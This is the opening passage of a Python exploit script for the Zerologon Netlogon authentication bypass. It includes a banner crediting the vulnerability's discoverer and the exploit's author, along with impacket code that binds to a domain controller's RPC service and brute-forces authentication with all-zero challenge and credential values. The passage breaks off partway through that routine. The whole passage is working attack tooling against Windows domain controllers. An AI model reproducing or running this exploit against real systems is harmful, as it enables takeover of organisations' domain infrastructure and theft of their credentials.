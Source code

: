 #!/usr/bin/env python3

from impacket.dcerpc.v5 import nrpc, epm
from impacket.dcerpc.v5.dtypes import NULL
from impacket.dcerpc.v5 import transport
from impacket import crypto
import hmac, hashlib, struct, sys, socket, time
from binascii import hexlify, unhexlify
from subprocess import check_call

# Give up brute-forcing after this many attempts. If vulnerable, 256 attempts are expected to be neccessary on average.
MAX_ATTEMPTS = 2000 # False negative chance: 0.04%


def banner():
  print("""
 _____                   __                         
/ _  / ___ _ __ ___     / /  ___   __ _  ___  _ __  
\// / / _ \ '__/ _ \   / /  / _ \ / _` |/ _ \| '_ \ 
 / //\  __/ | | (_) | / /__| (_) | (_| | (_) | | | |
/____/\___|_|  \___/  \____/\___/ \__, |\___/|_| |_|
                                  |___/             
                Vulnerability Discovered by Tom Tervoort
                              Exploit by Ronnie Bartwitz
  """)
  
def fail(msg):
  print(msg, file=sys.stderr)
  print('This might have been caused by invalid arguments or network issues.', file=sys.stderr)
  sys.exit(2)

def try_zero_authenticate(dc_handle, dc_ip, target_computer):
  # Creates bind to the DC over RPC.
  binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
  rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
  # Connects to RPC
  rpc_con.connect()
  # Creates bind to RPC
  rpc_con.bind(nrpc.MSRPC_UUID_NRPC)

  # Use an all-zero challenge and credential.
  plaintext = b'\x00' * 8 # 16 Bytes, or two hextets of Zero
  ciphertext = b'\x00' * 8 # 16 Bytes, or two hextets of Zero

  # Standard flags observed from a Windows 10 client (including AES), with only the sign/se
